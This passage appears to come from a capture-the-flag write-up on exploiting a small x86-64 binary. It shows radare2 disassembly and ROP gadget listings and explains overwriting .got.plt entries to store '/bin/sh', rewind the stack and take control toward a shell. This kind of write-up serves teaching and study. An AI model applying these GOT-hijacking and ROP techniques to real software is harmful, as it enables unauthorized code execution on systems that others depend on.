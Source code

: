 As anticipated, the idea is that the second `read` call will overwrite 48 bytes of the .got.plt section, so `XXXXXXXX` will be an address in the range of the PLT table (plus 0x20).

## Step 2 - hijacking the PLT

The goals to achieve by writing on the .got.plt section this time are multiple:

1. store the "/bin/sh" command string
2. rewind the stack a bit, in order to use some more of the buffer already on the stack to build a ROP chain
3. regain control of the stack and its return chain


In order to rewind the stack, the obvius code to execute is the `sub rsp, 0x30` at beginning of `main`:

```asm
[0x00400634]> pd 7@main
╒ (fcn) sym.main 134
│          ; DATA XREF from 0x0040057d (entry0)
│          ;-- main:
│          ;-- sym.main:
│          0x0040064d   push rbp
│          0x0040064e   mov rbp, rsp
│          0x00400651   sub rsp, 0x30
│          0x00400655   mov dword [rbp - 0x24], edi
│          0x00400658   mov qword [rbp - 0x30], rsi
│          0x0040065c   mov edi, str.Welcome_Stranger                  ; "Welcome Stranger" @ 0x400768
│          0x00400661   call sym.imp.puts
│             sym.imp.puts()
```
This means that by replacing a .got.plt entry to point to `0x00400651`, it is possible to execute the stack rewind. Here are the obstacles:

* after the stack rewind, all the `main` function will be executed again
* currently our `rbp` still points to the address into .got.plt section

Here are the solutions:

* overwrite all the non-`system` imports in order to avoid stack writing that can destroy our ROP chain which is already on the stack
* use the last of the functions to regain control of the stack and start the ROP chain
* instead of executing directly the `sub rsp, 0x30`, jump to the previous instruction: `mov rbp, rsp` this will avoid overwriting the dynamic parts of the PLT, at the cost of loosing the first 16 bytes of the available stack buffer, but it's ok in this case

All the needed ROP gadgets are:

```asm
[0x00400706]> e rop.len=4
[0x00400706]> /R pop

  [...]
  
  0x0040073e           415d  pop r13
  0x00400740           415e  pop r14
  0x00400742           415f  pop r15
  0x00400744             c3  ret

  0x00400743             5f  pop rdi
  0x00400744             c3  ret

```
Finally, by choosing the starting point to be the address `0x00601018`, the `XXXXXXXX` value will be `0x00601038` (because before the `read` the `rbp` value is subtracted by `0x20`).
